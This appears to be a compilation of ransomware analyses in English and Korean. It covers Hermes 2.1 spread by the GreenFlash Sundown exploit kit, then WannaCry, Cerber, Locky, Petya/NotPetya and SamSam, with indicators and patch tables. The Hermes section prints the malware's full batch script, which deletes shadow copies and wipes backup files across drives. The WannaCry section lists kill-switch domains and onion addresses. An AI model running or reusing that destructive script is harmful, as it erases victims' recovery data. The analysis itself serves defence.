At the end of January, the South Korean Emergency Response Team (KrCERT) published news of a Flash Player zero-day used in targeted attacks. The flaw, which exists in Flash Player 28.0.0.137 and below, was distributed via malicious Office documents containing the embedded Flash exploit. Only a couple of weeks after the public announcement, spam campaigns were already beginning to pump out malicious Word documents containing the newly available exploit.

While spam has been an active distribution channel for some time now, the news of a Flash exploit would most certainly interest exploit kit authors as well. Indeed, in our previous blog post about this vulnerability (CVE-2018-4878), we showed how trivial it was to use an already available Proof-of-Concept and package it as as a drive-by download instead.

On March 9th, MDNC discovered that a less common, but more sophisticated exploit kit called GreenFlash Sundown had started to use this recent Flash zero-day to distribute the Hermes ransomware. This payload was formerly used as part of an attack on a Taiwanese bank and suspected to be the work of a North Korean hacking group. According to some reports, it may be a decoy attack and “pseudo-ransomware“.

By checking on the indicators published by MDNC, we were able to identify this campaign within our telemetry and noticed that all exploit attempts were made against South Korean users. Based on our records, the first hit happened on February 27, 2018, (01:54 UTC) via a compromised Korean website.


We replayed this attack in our lab and spent a fair amount of time looking for redirection code within the JavaScript libraries part of the self hosted OpenX server. Instead, we found that it was hiding in the main page’s source code.

We had already pinpointed where the redirection was happening by checking the DOM on the live page, but we also confirmed it by decoding the large malicious blurb that went through Base64 and RC4 encoding (we would like to thank David Ledbetter for that).

<br/>

**Hermes ransomware**

The payload from this attack is Hermes ransomware, version 2.1.

<br/>

**Behavioral analysis**

The ransomware copies itself into `%TEMP%` under the name `svchosta.exe` and redeploys itself from that location. The initial sample is then deleted.


The ransomware is not particularly stealthy—some windows pop up during its run. For example, we are asked to run a batch script with administrator privileges:


The authors didn’t bother to deploy any UAC bypass technique, relying only on social engineering for this. The pop-up is deployed in a loop, and by this way it tries to force the user into accepting it. But even if we don’t let the batch script be deployed, the main executable proceeds with encryption.

The batch script is responsible for removing the shadow copies and other possible backups:



It is dropped inside C:\Users\Public along with some other files:


The file “PUBLIC” contains a blob with RSA public key. It is worth noting that this key is unique on each run, so, the RSA key pair is generated per victim. Example:



Another file is an encrypted block of data named UNIQUE_ID_DO_NOT_REMOVE. It is a blob containing an encrypted private RSA key, unique for the victim:


Analyzing the blob header, we find the following information:

- 0x07 – PRIVATEKEYBLOB
- 0x02 – CUR_BLOB_VERSION: 2
- 0xA400 – ALG_ID: CALG_RSA_KEYX

The rest of the data is encrypted—at this moment, we can guess that it is encrypted by the RSA public key of the attackers.

The same folder also contains a ransom note. When the encryption finished, the ransom note pops up. The note is in HTML format, named DECRYPT_INFORMATION.html.


The interesting fact is that, depending on the campaign, in some of the samples the authors used BitMessage to communicate with victims:


This method was used in the past by a few other authors, for example in Chimera ransomware, and by the author of original Petya in his affiliate programs.

Encrypted files don’t have their names changed. Each file is encrypted with a new key—the same plaintext produces various ciphertext. The entropy of the encrypted file is high, and no patterns are visible. That suggests that some stream cipher or a cipher with chained blocks was used. (The most commonly used in such cases is AES in CBC mode, but we can be sure only after analyzing the code). Below, you can see a visualization of a BMP file before and after being encrypted by Hermes: 


This time the blob contains an exported session key (0x01 : SIMPLEBLOB) and the algorithm identifier is AES (0x6611: CALG_AES). We can make an educated guess that it is the AES key for the file, encrypted by the victim’s RSA key (from the generated pair).

The ransomware achieves persistence by dropping a batch script in the Startup folder:


So, on each system startup it will make a check for new, unencrypted files and try to encrypt them. That’s why, as soon as one discovers that they have been attacked by this ransomware, they should remove the persistence entry in order to not let the attack repeat itself.

<br/>

**Inside the ransomware**

**Execution flow**

At the beginning of the execution, the ransomware creates a mutex named “tech”:



The sample is mildly obfuscated, for example, its imports are loaded at runtime. The .data section of the PE file is also decrypted during the execution, so, at first we will not see the typical strings.

First, the executable begins to dynamically load all its imports via a function at 4023e0:



It then checks the registry key for a language code. If Russian, Belarusian, or Ukrainian are found as the system language, it exits the process (0x419 being Russian, 422 Ukrainian, and 423 Belarusian).



It then creates two subprocesses – cmd.exe.

One that copies itself into directory `appdata/local/temp/svchost.exe`, and another that executes the copied file.

It also generates crypto keys using standard CryoptAquireCOntext libraries,

and saves the public key and some kind of ID into the following files:


As mentioned earlier, it writes out a script to auto run on startup with contents: **start “” %TEMP%\svchosta.exe** into the Start menu startup folder. This is quite simple and conspicuous. Since it is always running and keeps persistence, it makes sense that it saved out the public key into a file so that it can later find that key and continue encrypting using a consistent key throughout all executions.

Below is the function that calls all of this functionality sequentially, labeled:



It proceeds to cycle all available drives. If it is CDRom, it will skip it. Inside the function, it goes through all files and folders on the drive, but skips a few key directories, not limited to Windows, Mozilla, and the recycling bin.


Inside of the function labeled recursiveSearch_Encrypt are the checks for key folders and drive type:




It then continues on to enumerate netResources and encrypts those files as well. After encryption, it creates another bat file called **window.bat** to delete shadow volume and backup files. Here is its content:

```
vssadmin Delete Shadows /all /quiet
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=401MB
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=unbounded
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=401MB
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=unbounded
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=401MB
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=unbounded
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=401MB
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=unbounded
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=401MB
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=unbounded
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=401MB
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=unbounded
vssadmin Delete Shadows /all /quiet
del /s /f /q c:\*.VHD c:\*.bac c:\*.bak c:\*.wbcat c:\*.bkf c:\Backup*.* c:\backup*.* c:\*.set c:\*.win c:\*.dsk
del /s /f /q d:\*.VHD d:\*.bac d:\*.bak d:\*.wbcat d:\*.bkf d:\Backup*.* d:\backup*.* d:\*.set d:\*.win d:\*.dsk
del /s /f /q e:\*.VHD e:\*.bac e:\*.bak e:\*.wbcat e:\*.bkf e:\Backup*.* e:\backup*.* e:\*.set e:\*.win e:\*.dsk
del /s /f /q f:\*.VHD f:\*.bac f:\*.bak f:\*.wbcat f:\*.bkf f:\Backup*.* f:\backup*.* f:\*.set f:\*.win f:\*.dsk
del /s /f /q g:\*.VHD g:\*.bac g:\*.bak g:\*.wbcat g:\*.bkf g:\Backup*.* g:\backup*.* g:\*.set g:\*.win g:\*.dsk
del /s /f /q h:\*.VHD h:\*.bac h:\*.bak h:\*.wbcat h:\*.bkf h:\Backup*.* h:\backup*.* h:\*.set h:\*.win h:\*.dsk
del %0
```

It then creates and executes another bat file called **svchostaaexe.bat** that cycles through the entire file system again to search for and delete all backup files. This is interesting, as we have rarely seen ransomware looking in so much detail for backup files.

There is no functionality that communicates a decryption key to a C2 server. This means that the file UNIQUE_ID_DO_NOT_REMOVE, which contains the unique ID you have to send to the email address, must be encrypted by a public key pair that the attackers have pre-generated and retained on their side.

We have found that there is a heavy code reuse from the old versions of Hermes with this one. The flow of the code looks to be a bit different, but the overall functionality is the same. This is quite clear when comparing the two versions in a disassembler.

Below are two screenshots: the first from the current version we are analyzing, and the second from the old version. You can clearly see that even though the flow and arrangement are a bit different, the functionality remains mostly the same.




<br/>

**Attacked targets**

The ransomware attacks the following extensions:

```
tif php 1cd 7z cd 1cd dbf ai arw txt doc docm docx zip rar xlsx xls xlsb xlsm jpg jpe jpeg bmp db eql sql adp mdf frm mdb odb odm odp ods dbc frx db2 dbs pds pdt pdf dt cf cfu mxl epf kdbx erf vrp grs geo st pff mft efd 3dm 3ds rib ma max lwo lws m3d mb obj x x3d c4d fbx dgn dwg 4db 4dl 4mp abs adn a3d aft ahd alf ask awdb azz bdb bib bnd bok btr bak cdb ckp clkw cma crd dad daf db3 dbk dbt dbv dbx dcb dct dcx ddl df1 dmo dnc dp1 dqy dsk dsn dta dtsx dxl eco ecx edb emd fcd fic fid fil fm5 fol fp3 fp4 fp5 fp7 fpt fzb fzv gdb gwi hdb his ib idc ihx itdb itw jtx kdb lgc maq mdn mdt mrg mud mwb s3m myd ndf ns2 ns3 ns4 nsf nv2 nyf oce oqy ora orx owc owg oyx p96 p97 pan pdb pdm phm pnz pth pwa qpx qry qvd rctd rdb rpd rsd sbf sdb sdf spq sqb stp str tcx tdt te tmd trm udb usr v12 vdb vpd wdb wmdb xdb xld xlgc zdb zdc cdr cdr3 ppt pptx abw act aim ans apt asc ase aty awp awt aww bad bbs bdp bdr bean bna boc btd cnm crwl cyi dca dgs diz dne docz dot dotm dotx dsv dvi dx eio eit emlx epp err etf etx euc faq fb2 fbl fcf fdf fdr fds fdt fdx fdxt fes fft flr fodt gtp frt fwdn fxc gdoc gio gpn gsd gthr gv hbk hht hs htc hwp hz idx iil ipf jis joe jp1 jrtf kes klg knt kon kwd lbt lis lit lnt lp2 lrc lst ltr ltx lue luf lwp lyt lyx man map mbox me mell min mnt msg mwp nfo njx now nzb ocr odo odt ofl oft ort ott p7s pfs pfx pjt prt psw pu pvj pvm pwi pwr qdl rad rft ris rng rpt rst rt rtd rtf rtx run rzk rzn saf sam scc scm sct scw sdm sdoc sdw sgm sig sla sls smf sms ssa stw sty sub sxg sxw tab tdf tex text thp tlb tm tmv tmx tpc tvj u3d u3i unx uof uot upd utf8 utxt vct vnt vw wbk wcf wgz wn wp wp4 wp5 wp6 wp7 wpa wpd wpl wps wpt wpw wri wsc wsd wsh wtx xdl xlf xps xwp xy3 xyp xyw ybk yml zabw zw abm afx agif agp aic albm apd apm apng aps apx art asw bay bm2 bmx brk brn brt bss bti c4 cal cals can cd5 cdc cdg cimg cin cit colz cpc cpd cpg cps cpx cr2 ct dc2 dcr dds dgt dib djv djvu dm3 dmi vue dpx wire drz dt2 dtw dvl ecw eip exr fal fax fpos fpx g3 gcdp gfb gfie ggr gif gih gim spr scad gpd gro grob hdp hdr hpi i3d icn icon icpr iiq info ipx itc2 iwi j j2c j2k jas jb2 jbig jbmp jbr jfif jia jng jp2 jpg2 jps jpx jtf jwl jxr kdc kdi kdk kic kpg lbm ljp mac mbm mef mnr mos mpf mpo mrxs myl ncr nct nlm nrw oc3 oc4 oc5 oci omf oplc af2 af3 asy cdmm cdmt cdmz cdt cgm cmx cnv csy cv5 cvg cvi cvs cvx cwt cxf dcs ded dhs dpp drw dxb dxf egc emf ep eps epsf fh10 fh11 fh3 fh4 fh5 fh6 fh7 fh8 fif fig fmv ft10 ft11 ft7 ft8 ft9 ftn fxg gem glox hpg hpgl hpl idea igt igx imd ink lmk mgcb mgmf mgmt mt9 mgmx mgtx mmat mat otg ovp ovr pcs pfv pl plt vrml pobj psid rdl scv sk1 sk2 ssk stn svf svgz sxd tlc tne ufr vbr vec vml vsd vsdm vsdx vstm stm vstx wpg vsm xar yal orf ota oti ozb ozj ozt pal pano pap pbm pc1 pc2 pc3 pcd pdd pe4 pef pfi pgf pgm pi1 pi2 pi3 pic pict pix pjpg pm pmg pni pnm pntg pop pp4 pp5 ppm prw psdx pse psp ptg ptx pvr px pxr pz3 pza pzp pzs z3d qmg ras rcu rgb rgf ric riff rix rle rli rpf rri rs rsb rsr rw2 rwl s2mv sci sep sfc sfw skm sld sob spa spe sph spj spp sr2 srw ste sumo sva save ssfn t2b tb0 tbn tfc tg4 thm tjp tm2 tn tpi ufo uga vda vff vpe vst wb1 wbc wbd wbm wbmp wbz wdp webp wpb wpe wvl x3f y ysp zif cdr4 cdr6 cdrw ddoc css pptm raw cpt pcx pdn png psd tga tiff tif xpm ps sai wmf ani flc fb3 fli mng smil svg mobi swf html csv xhtm dat
```

<br/>

**Encryption**

Hermes, like many other ransomware, uses AES along with RSA for the encryption. AES is used to encrypt files with a random key. RSA is used to protect the random AES key.

The ransomware uses two RSA key pairs, one being a RSA hardcoded public key for the attackers.



Then, there is a keypair for the victim. It is generated at the beginning of the attack. The private key from this key pair is encrypted by the attackers’ public key and stored in the file UNIQUE_ID_DO_NOT_REMOVE.

When the victim sends this file, the attackers can recover the victim’s private key with the help of their own private key. The victim’s public key is stored in PUBLIC in clear text. It is later used to encrypt random AES keys, generated per file.

Cryptography is implemented with the help of Windows Crypto API. Function calls are mildly obfuscated, and pointers to the functions are manually loaded.



Each file processing starts from checking if it was already encrypted. The ransomware uses the saved marker “HERMES” that we already saw during the behavioral analysis. The marker is stored at the end of the file, before the block where the AES key is saved. Its offset is 274 bytes from the end. So, first the file pointer is set at this position to make a check of the characters.



If the marker was found, the file is skipped. Otherwise, it is processed further. As we noticed during the behavioral analysis, each file is encrypted with a new key. Looking at the code, we can find the responsible function. Unfortunately for the victims, the authors used the secure function CryptGenKey:



The used identifier for the algorithm is 0x6610 (CALG_AES_256). That means 256-bit is using AES encryption. This key is used to encrypt the content of the file. The file is read and encrypted in chunks, with 1,000,000 bytes each.



At the end, the marker “HERMES” is written and the exported AES key is saved:



The handle to the attacker’s RSA public key is passed, so the function CryptExportKey automatically takes care of protecting the AES key. Only the owner of the RSA private key will be able to import it back.

<br/>

-----

<br/>

#### ○ WannaCry (2017)

2017년 5월 12일, Shadow Brokers에 의해 공개된 취약점으로 시작된 워너크라이(이하 WannaCry)가 전세계를 강타했다.

WannaCry는 미국 NSA에서 SMB 취약점을 이용하여 개발한 공격 도구를 Shadow Brokers가 공개하면서 악용된 것으로,

2017년 5월 16일 기준으로 러시아와 유럽국가, 인도, 미국, 대만 등 세계 150개국 PC 30만대를 감염시킨 것으로 밝혀졌다.

 이처럼 WannaCry가 일반 랜섬웨어에 비해 크게 이슈화된 이유는 SMB취약점에서 찾을 수 있다.

WannaCry는 네트워크에 연결된 상태이면 감염될 수 있는 웜형태의 전파방식이 내재되어 있는데 SMB취약점이 존재하는 다른 PC로 네트워크를 활용하여 전파된다. 

WannaCry 유포 초기에 영국의 보안전문가가 유포를 제어할 수 있는 ‘Kill Switch’를 발견하여 악성코드의 확산을 일부 지연시킬 수 있었으나,

WannaCry2.0으로 변종이 발생함에 따라 여전히 WannaCry로 인한 위협은 지금도 지속되고 있다.

이에 따라 WannaCry에 대해서 분석해보고 대응방법에 대해서 알아보고자 한다.





WannaCry 감염으로 인한 피해사례는 세계 곳곳에서 발견되었다.

대표적인 감염사례로 영국 국민보건서비스(NHS) 산하 병원 40여개소가 피해를 입어 진료에 차질을 빚었으며,

이웃나라 독일에서는 철도 시스템이 공격을 받아 일부 모니터에 랜섬웨어 감염화면이 노출되었다.

가장 큰 피해를 입었다고 알려진 러시아는 여러 공공기관이 감염되었고, 그 중 정부기관인 내무부 PC도 포함된 것으로 알려졌다. 

일본에서는 센다이역 JR 히가시니혼측 열차 지연 안내판 감염이나 대형 할인매장의 ‘이온 몰’ 감염 등 철도나 민간 기업까지 피해가 속출했다.

중국은 공항, 출입국관리국을 비롯하여 각종 공공기관은 물론, 학교 공용 컴퓨터와 ATM까지 감염되는 등 러시아 못지 않게 피해가 상당히 컸다.

국내에서도 CGV 영화관에서 일부 상영관 광고 서버가 감염되어 영화 시작 전 랜섬웨어 화면이 노출되는 등 전세계 적으로 공공, 민간, 의료 등 다양한 분야에서 피해사례들이 보고되었다.

<br/>

**영향 받는 시스템**

Microsoft Windows XP Embedded SP3 x86

Microsoft Windows XP Sp3 X86

Microsoft Windows XP Sp2 X64

Microsoft Windows Vista x64 Edition Service Pack 2 

Microsoft Windows Vista Service Pack 2

Microsoft Windows Server 2016 for x64-based Systems 

Microsoft Windows Server 2012 R2 

Microsoft Windows Server 2012 

Microsoft Windows Server 2008 R2 for x64-based Systems SP1

Microsoft Windows Server 2008 R2 for Itanium-based Systems SP1

Microsoft Windows Server 2008 for x64-based Systems SP2

Microsoft Windows Server 2008 for Itanium-based Systems SP2

Microsoft Windows Server 2008 for 32-bit Systems SP2

Microsoft Windows Server 2003 x86 SP2

Microsoft Windows Server 2003 x64 SP2

Microsoft Windows RT 8.1

Microsoft Windows 8.1 for x64-based Systems 

Microsoft Windows 8.1 for 32-bit Systems 

Microsoft Windows 8 X86

Microsoft Windows 8 X64

Microsoft Windows 7 for x64-based Systems SP1

Microsoft Windows 7 for 32-bit Systems SP1

Microsoft Windows 10 Version 1607 for x64-based Systems 

Microsoft Windows 10 Version 1607 for 32-bit Systems 

Microsoft Windows 10 version 1511 for x64-based Systems 

Microsoft Windows 10 version 1511 for 32-bit Systems 

Microsoft Windows 10 for x64-based Systems 

Microsoft Windows 10 for 32-bit Systems 

<br/>

**WannaCry의 특징**

 WannaCry는 웜과 랜섬웨어 모듈로 이루어져 일명 랜섬웜(Ransomworm)이라고 불린다.

랜섬웨어 모듈은 보통의 랜섬웨어와 같이 감염된 시스템의 파일을 암호화하며 웜 모듈에 의해 구동된다.

웜 모듈은 Windows SMB 서버 원격 코드 실행 취약점(CVE-2017-0144,0145)을 이용하여 다른 시스템으로 mssecsvc.exe 파일을 전파한다.



감염된 시스템으로부터 전파된 mssecsvc.exe는 공격자가 의도한 도메인(Kill Switch)으로 접속 시도한다.

해당 도메인으로부터 응답 값을 받지 못하면 mssecsvc2.0 서비스가 실행된다.  

mssecsvc2.0 서비스는 공격자에게 지불할 비트코인 주소와 파일 복호화에 필요한 KEY를 전달받기 위해tor.exe 파일을 다운로드하며,

통신이 가능한 IP 주소와 활성화된 TCP 445포트를 찾는다.

이 과정이 끝나면 SMB 취약점을 이용하여 악성코드를 다른 시스템으로 전파한다.

또한, t.wnry에 의해 시스템에 존재하는 파일들을 각각 AES 방식으로 암호화하고 파일 암호화에 사용한 KEY를 RSA 방식으로 다시 암호화한다.

마지막으로 암호화가 끝난 원본 파일을 taskdl.exe을 이용해 삭제한다.

**1) SMB(Server Message Block) 취약점**

SMB 프로토콜은 사용자가 원격 서버에 있는 파일이나 기타 리소스에 액세스할 수 있도록 네트워크 파일 공유 서비스를 제공하는 프로토콜로 원격 서버의 파일을 읽거나 수정할 수 있다. 

SMB 취약점은 대상 시스템에 조작된 패킷을 보내 임의의 코드가 실행되는 것으로 SMB 통신이 가능할때 공격자가 다수의 SMB 요청하여 대상 시스템에 메모리 충돌을 발생시킨다.

메모리 충돌로 인해 시스템이 재부팅되면 SMB 요청(공격자가 원하는 코드)과 부팅 명령어가 윈도우 커널에서 함께 실행되어 대상 시스템에 악성코드가 주입된다.

**2) Kill Switch**

 Kill Switch는 대상 시스템에서 도메인(아래 참고) 접속 시도 시 해당 도메인의 존재 여부로 악성코드를 전파하거나 멈출 수 있도록 공격자가 악성코드에 추가한 기능이다.

여기서 Kill Switch로 발견된 도메인은 정상 접속이 가능해야 악성코드에 감염되지 않으므로 해당 도메인을 차단하지 않도록 주의해야 한다.

 ```
iuqerfsodp9ifjaposdfjhgosurijfaewrwergwea.com
ifferfsodp9ifjaposdfjhgosurijfaewrwergwea.com
 ```

**3) tor.exe**

 Worm module에 첨부된 tor 다운로드 경로(아래 참고)를 참조하여 tor.exe 파일을 다운로드 한다. 

```
www.dropbox.com/s/yw3rvyotvb4gcnh/t1.zip?dl=1
dist.torproject.org/torbrowser/6.5.1/tor-win32-0.2.9.10.zip
```

다운로드가 완료되면 TaskData 디렉터리가 생성되고, 하위 경로에 tor.exe 파일과 tor.exe 실행에 필요한 9개의 dll 파일이 같이 생성된다.

tor.exe 파일은 프로세스 taskhosts.exe로 변조되어 실행되고 공격자와 피해 시스템간의 통신을 위해 tor 서버와 네트워크 접속을 시도한다. 



<br/>

**WannaCry 상세 과정**

**1) Worm module**










**2) Ransom module**

Worm module에 의해 mssecsvc.exe가 전파되어 mssecsvc2.0 서비스가 실행되면 본격적으로 감염 시스템에 존재하는 파일들을 암호화하기 시작한다.












**AES 암호화 방식**

AES 암호화 방식은 대칭형 암호화 방식으로 암호화 및 복호화에 동일한 KEY(비밀키)를 사용한다.

비대칭형 암호화 방식에 비해 암/복호화 처리속도가 빠르고 암호문의 크기가 증가하지 않는 장점이 있지만,

암호화에 사용한 비밀키를 직접 전달하기 때문에 sniffing과 같은 공격에 매우 취약하다.

 **RSA 암호화 방식**

RSA 암호화 방식은 암호화에 사용된 KEY(공개키)와 복호화 KEY(개인키)가 서로 다른 KEY로써 대칭형 암호화 방식에서 KEY가 직접 노출되는 문제를 보완한 대표적인 비대칭형 암호화 방식이다.

공개키와 개인키는 하나의 쌍으로 공개키로 암호화된 문서는 무조건 해당 공개키와 한 쌍을 이루는 개인키로만 복호화를 할 수 있다.






**사용한 tor 네트워크 주소**

```
57g7spgrzlojinas.onion
76jdd2ir2embyv47.onion
cwwnhwhlz52maqm7.onion
gx7ekbenv2riucmf.onion
sqjolphimrr7jqw6.onion
Xxlvbrloxvriy2c5.onion
xxlvbrloxvriy2c5.onion
```

<br/>

**대응방안**










| **영향 받는 운영체제 버전**                                  | **보안** **업데이트명** |
| ------------------------------------------------------------ | ----------------------- |
| Microsoft Windows Vista Service Pack 2                       | 3177186                 |
| Microsoft Windows Vista x64 Edition Service Pack 2           | 3177186                 |
| Microsoft Windows Server 2008 for 32-bit Systems SP2         | 3177186                 |
| Microsoft Windows Server 2008 for x64-based Systems SP2      | 3177186                 |
| Microsoft Windows Server 2008 for Itanium-based Systems SP2  | 3177186                 |
| Microsoft Windows 7 for 32-bit Systems SP1                   | 3212646(월별롤업)       |
| Microsoft Windows 7 for x64-based Systems SP1                | 3212646(월별롤업)       |
| Microsoft Windows Server 2008 R2 for x64-based Systems SP1   | 3212646(월별롤업)       |
| Microsoft Windows Server 2008 R2 for Itanium-based Systems SP1 | 3212646(월별롤업)       |
| Microsoft Windows 8.1 for 32-bit Systems                     | 3205401(월별롤업)       |
| Microsoft Windows 8.1 for x64-based Systems                  | 3205401(월별롤업)       |
| Microsoft Windows Server 2012                                | 3205409(월별롤업)       |
| Microsoft Windows Server 2012 R2                             | 3205401(월별롤업)       |
| Microsoft Windows RT 8.1                                     | 3205401(월별롤업)       |
| Microsoft Windows 10 for 32-bit Systems                      | 3210720                 |
| Microsoft Windows 10 for x64-based Systems                   | 3210720                 |
| Microsoft Windows 10 version 1511 for 32-bit Systems         | 3210721                 |
| Microsoft Windows 10 version 1511 for x64-based Systems      | 3210721                 |
| Microsoft Windows 10 Version 1607 for 32-bit Systems         | 3213986                 |
| Microsoft Windows 10 Version 1607 for x64-based Systems      | 3213986                 |
| Microsoft Windows Server 2016 for x64-based Systems          | 3213986                 |

*[표] 운영체제 별 보안 업데이트 정보*

<br/>







<br/>

-----

<br/>

#### ○ Cerber (2016)

Ransom.Cerber is a ransomware application that uses a ransomware-as-a-service (RaaS) model where affiliates purchase and then subsequently spread the malware.

Commissions are paid to the developers for the use of the malware.

Ransom.Cerber uses strong encryption, and there are currently no free decryptors available.

<br/>

**Symptoms**

Ransom.Cerber may run silently in the background during the encryption phase and not provide any indication of infection to the user.

Ransom.Cerber may prevent the execution of Antivirus programs and other Microsoft Windows security features and may prevent system restoration as a means to solicit payment.

Ransom.Cerber may display a warning after successful encryption of the victim machine.



<br/>

**Type and source of infection**

Cerber.Ransomware may be distributed using various methods.

This software may be packaged with free online software, or could be disguised as a harmless program and distributed by email.

Alternatively, this software may be installed by websites using software vulnerabilities.

Infections that occur in this manner are usually silent and happen without user knowledge or consent.

<br/>

**Aftermath**

Systems affected by ransomware are rendered unusable due to files that are typically used for regular operations being encrypted.

Affected users who choose to pay the threat actors behind ransomware campaigns in exchange for access to data may find that they don’t get their files back.

There is also no sure way to know that threat actors will honor their end of the deal after paying the ransom.

Affected users who chose to pay the threat actors may also find themselves likely targets for future ransomware campaigns.

Data held hostage that wasn’t given back to users or deleted after the ransom has been paid can be used by threat actors either to (a) sell on the black market or (b) create a profile of the user they can use for fraud.

<br/>

-----

<br/>

#### ○ Locky (2016)

**Trojan.Ransom.LockyCrypt 분석보고서 / 출처: https://blog.alyac.co.kr/589 [이스트시큐리티 알약 블로그]**

**악성파일 분석(zxcvb.exe)**

Locky 랜섬웨어는 최근에는 자바스크립트로 유포되고 있지만 이전에는 이메일에 word파일을 첨부하고 word파일을 실행하면 매크로가 포함되어 Locky 랜섬웨어를 다운로드 받게 되어 있었습니다.






<br/>

-----

<br/>

#### ○ Petya (2016)

**History**
Petya was discovered in March 2016; Check Point noted that while it had achieved fewer infections than other ransomware active in early 2016, such as CryptoWall, it contained notable differences in operation that caused it to be "immediately flagged as the next step in ransomware evolution".

Another variant of Petya discovered in May 2016 contained a secondary payload used if the malware cannot achieve administrator-level access.

The name "Petya" is a reference to the 1995 James Bond film GoldenEye, wherein Petya is one of the two Soviet weapon satellites which carry a "Goldeneye"—an atomic bomb detonated in low Earth orbit to produce an electromagnetic pulse.

A Twitter account that Heise suggested may have belonged to the author of the malware, named "Janus Cybercrime Solutions" after Alec Trevelyan's crime group in GoldenEye, had an avatar with an image of GoldenEye character Boris Grishenko, a Russian hacker and antagonist in the film played by Scottish actor Alan Cumming.

On 30 August 2018, a regional court in Nikopol in the Dnipropetrovsk Oblast of Ukraine convicted an unnamed Ukrainian citizen to one year in prison after pleading guilty to having spread a version of Petya online.

<br/>

**2017 cyberattack**

Main article: 2017 cyberattacks on Ukraine

On 27 June 2017, a major global cyberattack began (Ukrainian companies were among the first to state they were being attacked), utilizing a new variant of Petya.

On that day, Kaspersky Lab reported infections in France, Germany, Italy, Poland, the United Kingdom, and the United States, but that the majority of infections targeted Russia and Ukraine, where more than 80 companies were initially attacked, including the National Bank of Ukraine.

ESET estimated on 28 June 2017 that 80% of all infections were in Ukraine, with Germany second hardest hit with about 9%. Russian president Vladimir Putin's press secretary, Dmitry Peskov, stated that the attack had caused no serious damage in Russia.

Experts believed this was a politically-motivated attack against Ukraine, since it occurred on the eve of the Ukrainian holiday Constitution Day.

Kaspersky dubbed this variant "NotPetya", as it has major differences in its operations in comparison to earlier variants.

McAfee engineer Christiaan Beek stated that this variant was designed to spread quickly, and that it had been targeting "complete energy companies, the power grid, bus stations, gas stations, the airport, and banks".

It was believed that the software update mechanism of M.E.Doc [uk]—a Ukrainian tax preparation program that, according to F-Secure analyst Mikko Hyppönen, "appears to be de facto" among companies doing business in the country—had been compromised to spread the malware.

Analysis by ESET found that a backdoor had been present in the update system for at least six weeks prior to the attack, describing it as a "thoroughly well-planned and well-executed operation".

The developers of M.E.Doc denied that they were entirely responsible for the cyberattack, stating that they too were victims.

On 4 July 2017, Ukraine's cybercrime unit seized the company's servers after detecting "new activity" that it believed would result in "uncontrolled proliferation" of malware. Ukraine police advised M.E.Doc users to stop using the software, as it presumed that the backdoor was still present.

Analysis of the seized servers showed that software updates had not been applied since 2013, there was evidence of Russian presence, and an employee's account on the servers had been compromised; the head of the units warned that M.E.Doc could be found criminally responsible for enabling the attack because of its negligence in maintaining the security of their servers.

<br/>

**Operation**
Petya's payload infects the computer's master boot record (MBR), overwrites the Windows bootloader, and triggers a restart. Upon startup, the payload encrypts the Master File Table of the NTFS file system, and then displays the ransom message demanding a payment made in Bitcoin.

Meanwhile, the computer's screen displays text purportedly output by chkdsk, Windows' file system scanner, suggesting that the hard drive's sectors are being repaired.

The original payload required the user to grant it administrative privileges; one variant of Petya was bundled with a second payload, Mischa, which activated if Petya failed to install.

Mischa is a more conventional ransomware payload that encrypts user documents, as well as executable files, and does not require administrative privileges to execute.

The earlier versions of Petya disguised their payload as a PDF file, attached to an e-mail.

United States Computer Emergency Response Team (US-CERT) and National Cybersecurity and Communications Integration Center (NCCIC) released Malware Initial Findings Report (MIFR) about Petya on 30 June 2017.

The "NotPetya" variant used in the 2017 attack uses EternalBlue, an exploit that takes advantage of a vulnerability in Windows' Server Message Block (SMB) protocol. EternalBlue is generally believed to have been developed by the U.S. National Security Agency (NSA);

it was leaked in April 2017 and was also used by WannaCry.

The malware harvests passwords (using tweaked build of open-source Mimikatz) and uses other techniques to spread to other computers on the same network, and uses those passwords in conjunction with PSExec to run code on other local computers.

Additionally, although it still purports to be ransomware, the encryption routine was modified so that the malware could not technically revert its changes.

This characteristic, along with other unusual signs in comparison to WannaCry (including the relatively low unlock fee of US$300, and using a single, fixed Bitcoin wallet to collect ransom payments rather than generating a unique ID for each specific infection for tracking purposes), prompted researchers to speculate that this attack was not intended to be a profit-generating venture, but to damage devices quickly, and ride off the media attention WannaCry received by claiming to be ransomware.

<br/>

-----

<br/>

#### ○ SamSam (2016)

**SAMSAM 랜섬웨어의 등장으로 살펴보는 패칭의 중요성**

게시일: 2016-04-26 l 작성자: Trend Micro

사이버 범죄자들이 시스템과 네트워크의 취약점을 공격의 진입로로 이용하고 보안 취약점을 활용하여 공격을 확산하는 도구로 사용하면서, 패치 관리의 중요성이 부각되고 있습니다. 악명높은 SAMSAM 크립토 랜섬웨어의 공격이 이와 같습니다. 해당 랜섬웨어는 악성 URL 또는 스팸메일을 통해 침투하는 것이 아닌, 패치가 되지 않은 서버의 보안 취약점을 악용하는 악성 코드입니다.

지난 3월 켄터키 병원은 SAMSAM의 공격을 받아 모든 파일이 암호화 되었습니다. 네트워크로 연결된 파일도 암호화 대상에 포함되어 있었습니다. 의료 분야 공격을 시작으로, SAMSAM은 교육 분야로 확대해갔습니다. 최근에는 JBOSS 서버의 취약점을 이용한 SAMSAM 및 기타 악성 코드 공격으로 수많은 서버와 시스템이 감염되었습니다. JBOSS는 JAVA를 기반으로 하는 오픈소스 애플리케이션입니다. ‘Destiny’ 소프트웨어를 사용하는 시스템과 서버 또한 공격을 받았습니다. CISCO의 보고에 따르면, 해당 소프트웨어는 전세계 초ㆍ중ㆍ고등학교에서 광범위하게 사용되고 있습니다. Follet은 Destiny 소프트웨어 사용자를 위한 패치를 이미 발표하여 배포하고 있습니다.

보고에 따르면, JexBoss 익스플로잇 툴은 시스템 원격관리를 위한 스크립트인 ‘웹쉘’을 설치하기 위해 사용됩니다. 감염된 서버는 백도어, 웹쉘, 그리고 SAMSAM에 감염됩니다. 이후 랜섬웨어는 패치 되지 않은 서버에 확산되어 encryptedRSA 파일 확장자를 추가하여 파일을 암호화합니다.

